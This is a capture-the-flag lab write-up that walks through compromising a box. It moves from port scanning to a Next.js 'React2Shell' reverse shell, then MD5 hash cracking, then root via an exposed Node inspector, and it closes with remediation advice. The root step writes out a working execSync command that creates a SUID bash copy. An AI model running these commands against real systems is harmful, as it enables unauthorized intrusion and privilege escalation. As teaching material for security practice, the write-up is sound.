








## User Flag

- We always start with a port scan:
    - 

```bash
nmap -sC -sV 10.129.17.63
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
3000/tcp open  http    Next.js   # X-Powered-By: Next.js, x-nextjs-cache headers
```

- We see that for port 3000 it is open and can establish HTTP requests, so we also first do mapping in `/etc/hosts` and connect to `[ip]:3000` (note that we do not use the open SSH port because we have no creds)
- There is a webpage:
    - 
      <span class="caption">The ReactorWatch dashboard is a static monitoring page with nothing to click or submit, which is why I fingerprinted the framework instead of looking for inputs.</span>
- We also want to run gobuster on here to keep enumerating:
    - `gobuster dir -u http://10.129.17.63:3000 -w /usr/share/wordlists/dirb/common.txt` But nothing useful shows
- The website looks like it is written in react, where we can use f12 to check. After fingerprinting, we know that the backend is of Next.js 15.0.3, which is vulnerable to React2Shell (and this is the choice too because React2Shell is so powerful that we do not need any authentication, the web also does not have any interactable parts)
    - 
- Let's use the online PoC tool and setup a rev shell:
    - 
- We see that we are in, but we still aren't of a user, but we see a .db file, thus we try `sqlite3 reactor.db .dump` to dump the file and see:
    - 
- This is an extremely bad hash of md5, and pasting it to crackstation easily shows the plaintext: `reactor1`, thus we can use this for ssh login (note that shell login as engineer@reactor1 just stucks there)
- Login:
    - 
      <span class="caption">SSH in as `engineer` with the cracked password; the user flag is in the home directory.</span>

## Root Flag
- First, we try `sudo -l` -> does not work
- Then we list out `cat /etc/crontab; ls -la /etc/cron.*; ls -la /var/spool/cron/` but no weird stuff exists
- We need this mindset for all boxes: **is there a process running as root that's listening on a localhost-only port?** -> **This is incredibly important because from the dev's mindset, it is running from inside localhost, which "should" be untouchable**, so we do `ps aux` and try to find
    - Interesting find:
    - 
      <span class="caption">In `ps aux`, the Next.js app runs as `node`, but `/opt/uptime-monitor/worker.js` runs as root with `--inspect=127.0.0.1:9229`: a Node debugger that any local user can attach to.</span>
- It is a debugger, and if we can talk to this websocket we can run JS as root!
- try `node inspect 127.0.0.1:9229`
    - We are in the debugger window 
    - 
    - And has root priv
- So we can now try to inject root shell inside:
    - `exec("process.mainModule.require('child_process').execSync('cp /bin/bash /tmp/r00t && chmod +s /tmp/r00t')")` -> `cp /bin/bash /tmp/r00t && chmod +s /tmp/r00t` This means we copy the bash binary file to `/tmp/r00t`, and give it SUID priv, and the more complicated part is just
```javascript
const mod = process.mainModule;              // a Module object
const cp  = mod.require('child_process');     // the child_process module object
cp.execSync('cp /bin/bash /tmp/r00t && chmod +s /tmp/r00t');
```
- Then we just `.exit` and run `/tmp/r00t -p` (-p to keep priv status when running this file) to become root!

## Remediation

- **Patch Next.js.** The unauthenticated RCE ("React2Shell") came from the Next.js 15.0.3 server-action/middleware handling — upgrade to a patched release. See the [Next.js security advisories](https://github.com/vercel/next.js/security/advisories).
- **Don't store weak password hashes.** The SSH password was an unsalted MD5 in `reactor.db` that CrackStation resolved instantly. Use a slow, salted hash (bcrypt/argon2), and don't reuse an app password for the OS account.
- **Never expose a Node inspector — especially as root.** The root step was attaching to `node --inspect` on `127.0.0.1:9229`; the inspector is remote code execution by design. Don't run production with `--inspect`, and if you must debug, bind it to a Unix socket or an isolated namespace, never a port any local user can reach. See [Node.js — debugging security implications](https://nodejs.org/en/learn/getting-started/debugging#security-implications).

### References

- [Next.js security advisories](https://github.com/vercel/next.js/security/advisories)
- [Node.js — debugging / inspector security](https://nodejs.org/en/learn/getting-started/debugging#security-implications)
- [OWASP — Password Storage Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html)
